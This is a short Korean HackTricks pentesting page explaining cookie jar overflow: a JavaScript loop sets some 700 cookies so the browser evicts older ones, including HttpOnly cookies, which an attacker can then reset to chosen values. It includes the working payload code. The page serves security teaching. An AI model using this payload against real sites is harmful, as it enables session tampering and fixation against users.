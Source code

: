 {{#include ../../banners/hacktricks-training.md}}

브라우저는 페이지에 저장할 수 있는 **쿠키의 수에 제한**이 있습니다. 따라서 어떤 이유로 **쿠키를 사라지게** 해야 하는 경우, **쿠키 항아리를 오버플로우**하여 가장 오래된 쿠키가 삭제되도록 할 수 있습니다:
```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```
타사 쿠키가 다른 도메인을 가리키는 경우 덮어쓰이지 않음을 유의하세요.

> [!CAUTION]
> 이 공격은 **HttpOnly 쿠키를 덮어쓸 수 있습니다. 쿠키를 삭제한 다음 원하는 값으로 재설정할 수 있습니다**.
>
> [**이 실험실이 포함된 게시물에서 확인하세요**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}
